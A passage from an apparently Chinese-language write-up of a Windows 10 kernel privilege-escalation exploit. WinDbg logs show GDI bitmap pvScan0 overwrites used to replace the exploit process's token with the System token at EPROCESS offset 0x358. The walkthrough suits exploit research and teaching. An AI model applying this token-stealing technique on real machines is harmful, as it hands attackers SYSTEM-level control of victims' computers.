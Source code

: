 这里就会将ffffbad383aeb050中的值改写，因此在这里下内存写入断点。

```
kd&gt; ba w1 ffffbad383aeb050//向W的pvScan0下内存写入断点
kd&gt; p
Breakpoint 0 hit
win32kfull!memmove+0x1cf://中断在win32kfull!memmove函数中
ffffbab6`0b940f0f 75ef            jne     win32kfull!memmove+0x1c0 (ffffbab6`0b940f00)
kd&gt; bl
 0 e ffffbad383aeb050 w 1 0001 (0001)
kd&gt; kb
RetAddr:ArgstoChild  : Call Site
ffffbab6`0b88405c : 00000000`00fff8a0 00000000`00000000 00000000`00000a9a ffffbab6`0bbbf1da : win32kfull!memmove+0x1cc
ffffbab6`0b883e1a : ffffbad3`83ae9000 00000000`00000000 ffffffff`00000008 fffff801`00000704 : win32kfull!bDoGetSetBitmapBits+0x168
00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : win32kfull!GreSetBitmapBits+0x17a
kd&gt; dq ffffbad383adc050 L1 //这里会写入新的pvScan0，这个值是当前进程的                                       //token地址
ffffbad3`83aeb050  ffffe28d`12762b58
kd&gt; !process 0 0 //查看当前进程
PROCESS ffffe28d12762800
    SessionId: 1  Cid: 10cc    Peb: 011cb000  ParentCid: 1124
    DirBase: 48d5b000  ObjectTable: ffffa709d16d1640  HandleCount: &lt;Data Not Accessible&gt;
Image: Stop_by_win10.exe
kd&gt; dt nt!_EPROCESS Token ffffe28d12762800
   +0x358 Token : _EX_FAST_REF
kd&gt; dq ffffe28d12762800+358 L1//看看token值，就是pvScan0的值
ffffe28d`12762b58  ffffa709`d1903996
```

在Win10中，绝大多数的win32k.sys实现都在win32full里完成，这里利用M的pvScan0完成了对W的pvScan0值的修改，使之指向了当前进程的Token，接下来只需要调用GetBitmap/SetBitmap通过W的pvScan0，就可以完成对Token的读取和修改，从而完成提权。





```
kd&gt; !process 0 4 //获取System _EPROCESS结构
**** NT ACTIVE PROCESS DUMP ****
PROCESS ffffe28d0f662040
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 001aa000  ObjectTable: ffffa709c88032c0  HandleCount: &lt;Data Not Accessible&gt;
    Image: System
kd&gt; dq ffffe28d0f662040+358 L1 //得到System  Token值
ffffe28d`0f662398  ffffa709`c88158ad
kd&gt; p//调用setBitmap将这个值写入当前进程的地址
0033:00007ff7`9dd2217f 488bce          mov     rcx,rsi
kd&gt; g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; !process //当前进程的_EPROCESS
PROCESS ffffe28d12cb2080
    SessionId: 1  Cid: 0b48    Peb: 0117d000  ParentCid: 1124
    DirBase: 320b6000  ObjectTable: ffffa709d5f84500  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dq ffffe28d12cb2080+358 L1 //利用SetBitmap替换后，当前进程Token变成了                          //System Token，提权完成
ffffe28d`12cb23d8  ffffa709`c88158ad
```
